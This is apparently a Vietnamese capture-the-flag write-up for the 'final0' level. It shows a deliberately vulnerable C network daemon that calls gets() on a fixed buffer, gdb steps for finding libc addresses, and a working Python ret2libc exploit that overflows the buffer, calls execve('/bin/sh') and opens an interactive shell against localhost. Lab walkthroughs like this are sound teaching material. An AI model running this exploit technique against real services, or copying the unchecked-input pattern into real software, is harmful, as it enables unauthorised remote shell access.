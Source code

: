 # Final zero
source code:
```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```
Mục tiêu của chúng ta trong bài này là chạy lệnh "execve("/bin/sh",0,0).

## debug
>  gdb -p `pidof final0`
> set follow-fork-mode child
> (gdb) info functions @plt

![Alt text](image.png)
ta cũng có thể tìm địa chỉ của "/bin/sh" ở bên trong libc.so.6 với
```bash
grep -R -a -b -o /bin/sh /lib/libc.so.6
```
và nhận được libc đang ở 1176511
tiếp theo tìm địa chỉ của libc với
```bash
pidof final0
1697
cat /proc/1697/maps  
```


## Ta có chương trình exploit
```py
import socket
import struct
import telnetlib
HOST = "127.0.0.1"
PORT = 2995


padding = "a"*510 + "\x00"+"aaaabbbbccccddddeeeef"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
execve = struct.pack("I", 0x08048c0c )
binsh = struct.pack("I", 1176511+0xb7e97000)
# AAAA là ret cua execve do chung ta khong can ham nay tra ve bat ki dau ca, chi don gian la goi execve("/bin/sh",0,0) thoi.
exploit = padding + execve + "AAAA" + binsh +"\x00" *8

s.send(exploit + "\n")
s.send("id\n")
s.send("uname -a \n")
print s.recv(1024)
t = telnetlib.Telnet()
t.sock=s
t.interact()
```

